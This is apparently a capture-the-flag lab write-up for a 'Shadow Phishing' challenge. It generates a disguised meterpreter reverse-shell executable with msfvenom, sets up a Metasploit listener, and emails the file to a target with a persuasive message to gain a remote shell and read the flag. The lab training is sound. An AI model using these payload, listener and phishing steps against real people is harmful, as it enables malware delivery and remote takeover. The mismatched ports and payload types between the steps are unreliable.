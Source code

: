 # Shadow Phishing 

## Challenge Description
> ![image](https://github.com/user-attachments/assets/2d4d357f-3338-4c38-80aa-cd57e3ddcc0c)

## Solution
This challenge is similar to **Ghost Phishing**

To begin, we access the webmail interface at:
`http://10.10.225.139/`

Using the provided credentials:
`Username: shadowbyte@darknetmail.corp`
`Password: ShadowIsTheBest`

This grants us access to ShadowByte’s email account. Our objective is to craft and deliver a malicious Win10 x64 executable to our target, Cipher (cipher@darknetmail.corp).

![image](https://github.com/user-attachments/assets/5155d5ae-315d-4384-8de7-f4e691e82239)

> [!NOTE]  
> ### Steps to Generate the Malicious Windows Executable
> 1. To create our payload, we use msfvenom to generate a Windows x64 executable that establishes a reverse shell upon execution:
>    
>    ```
>    sudo msfvenom -a x64 — platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=<your_local_ip> LPORT=4444 -f exe > SilentEdgeInstaller.exe
>    ```

![image](https://github.com/user-attachments/assets/0b08f909-610c-4043-95de-f72eab54f7f0)

To receive a connection when the target opens the malicious executable, we used Metasploit’s multi/handler module:
> [!NOTE]  
> ### Setting Up a Listener
> 1. Open a terminal and start Metasploit:
>    
>    ```
>    msfconsole
>    ```
> 2. Set up the listener:
>
>    ```
>    use multi/handler
>    set payload windows/meterpreter/reverse_tcp
>    set LHOST <ATTACKBOX_IP>
>    set LPORT 8888
>    ```
> 3. Verify the settings:
>       
>    ```
>    show options
>    ```
> 4. Start listening for connections:
>
>    ```
>    exploit
>    ```      

Now, when the target opens the executable, we will receive a reverse shell.

The next step is to send the phishing email.
> [!NOTE]
> ### Sending the Phishing Email
> 1. Log into the webmail interface.
> 2. Compose a new email addressed to cipher@darknetmail.corp.
> 3. Attach the malicious executable (renaming it to something convincing like SilentEdgeInstaller.exe).
> 4. Write a persuasive message to encourage the recipient to open the document.
> 5. Send the email.

Once the target opens the document, our reverse shell should trigger within ~2 minutes.

After some time, we receive a Meterpreter session, confirming that Cipher has executed the payload:

![image](https://github.com/user-attachments/assets/cc0482e6-0e1f-4b96-ab7c-a146f8506776)

We navigated to the Administrator’s Desktop:
```
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
```
We retrieved the flag:
```
meterpreter > cat flag.txt
THM{3m41l_ph1sh1ng_1s_3z}
```

![image](https://github.com/user-attachments/assets/082f1e3d-75cf-4959-b3ac-d24c38994236)

## Conclusion
The challenge demonstrated the effectiveness of phishing attacks in compromising a target system. Crafting a convincing email is crucial for successful phishing attacks. 
The Metasploit framework provides robust modules for creating payloads and handling connections.

## Flag
THM{3m41l_ph1sh1ng_1s_3z}
